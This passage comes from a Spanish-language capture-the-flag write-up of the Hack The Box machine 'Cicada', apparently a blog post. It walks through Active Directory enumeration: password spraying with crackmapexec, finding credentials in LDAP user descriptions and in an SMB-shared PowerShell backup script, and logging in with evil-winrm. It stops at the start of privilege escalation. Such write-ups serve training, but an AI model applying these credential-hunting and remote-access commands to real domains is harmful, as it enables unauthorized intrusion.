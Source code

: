 Ahora que contamos con varios usuarios y una contraseña, podemos probar con herramientas como hydra o crackmapexec para ver si la contraseña pertenece a algún usuario.

```sh
crackmapexec smb 10.10.11.35 -u names.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```
![2Pic]({{ '/assets/img/cicada/6pic.png' | relative_url }}){: .center-image }

Como vemos la contraseña pertenece al usuario michael.wrightson, pero si tratamos de conectarnos por winrm, crackmapexec nos mostrará que no podemos.
Otra cosa que podemos probar es, ya teniendo credenciales válidas, volver a lanzar ldapsearch.

```sh
ldapsearch -x -H ldap://10.10.11.35 -D 'cicada\michael.wrightson' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb"
```

De todo este output, podemos filtrar por "password" en busca de contraseñas y encontraremos en la descripción del usuario David Orelious su contraseña anotada.

![2Pic]({{ '/assets/img/cicada/7pic.png' | relative_url }}){: .center-image }

Al igual que con el usuario anterior, David no pertenece al grupo "Remote Management Users" por lo que no nos podemos conectar por winrm.
Si tratamos de listar recursos compartidos con este usuario vemos que podemos acceder al contenido del directorio DEV.

```sh
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r DEV
```

En el directorio DEV encontramos un script que podemos descargar para ver el contenido.
```sh
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --download 'DEV\Backup_script.ps1'
```

![2Pic]({{ '/assets/img/cicada/8pic.png' | relative_url }}){: .center-image }

En este script de powershell podemos ver una credencial en texto plano que pertenece al usuario Emily. Una vez más, con crackmapexec, comprobamos si podemos usar estas credenciales para conectarnos con **evil-winrm**.

```sh
crackmapexec winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![2Pic]({{ '/assets/img/cicada/9pic.png' | relative_url }}){: .center-image }

La palabra "pwned" quiere decir que podemos conectarnos.

```sh
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```
## Escalada de Privilegios

Tras enumerar un poco vemos que el usuario Emily pertenece al grupo **SeBackupPrivilege**, que permite obtener el contenido de archivos incluso aunque el usuario no tenga permisos para acceder a ellos.
